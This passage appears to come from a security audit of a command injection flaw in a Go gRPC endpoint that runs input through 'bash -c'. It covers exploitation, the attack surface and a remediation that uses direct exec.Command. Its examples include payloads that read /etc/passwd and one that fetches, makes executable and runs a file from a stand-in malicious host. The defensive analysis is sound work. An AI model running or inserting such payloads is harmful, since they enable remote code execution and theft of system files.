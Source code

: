 3. **Error Handling Reveals Information:**
   The error logging might reveal sensitive information about the command execution and system configuration.

**Exploitation Mechanics:**

The vulnerability can be exploited by sending specially crafted gRPC requests containing shell metacharacters. For example:

- Basic command chaining: `echo hello; ls -la /`
- Command substitution: `echo $(cat /etc/passwd)`
- Background processing: `nohup wget http://malicious.com/payload -O /tmp/payload && chmod +x /tmp/payload && /tmp/payload &`

**Attack Surface:**

The attack surface is any client with access to the gRPC service that can make requests to the vulnerable endpoint. Since this is described as an "administrative" endpoint, it may require some level of authentication or authorization, but once that access is obtained, the command injection is straightforward.

**Technical Context:**

In Go's `os/exec` package, there are two distinct ways to execute commands:

1. **Direct execution:** `exec.Command("program", "arg1", "arg2")` - Executes the program directly with the specified arguments, without shell interpretation.

2. **Shell execution:** `exec.Command("bash", "-c", "command string")` - Passes the command string to a shell interpreter, which processes metacharacters and performs expansions.

The vulnerability uses the second approach, which is inherently riskier when handling untrusted input. This is particularly problematic in a microservices architecture where compromising one service can lead to lateral movement across the infrastructure.

# Remediation Steps
## Avoid Shell Interpreter and Use Direct Command Execution

**Priority**: P0

Replace the use of `bash -c` with direct command execution, separating the command and its arguments:

```go
func ExecuteUserCommand(command string, args ...string) {
    // Safer: Direct command execution without shell interpretation
    cmd := exec.Command(command, args...)
    output, err := cmd.CombinedOutput()
    if err != nil {
        log.Printf("Error executing command: %v", err)
    }
    log.Printf("Command output: %s", output)
}

// Usage example
ExecuteUserCommand("ls", "-la", "/var/log")

```
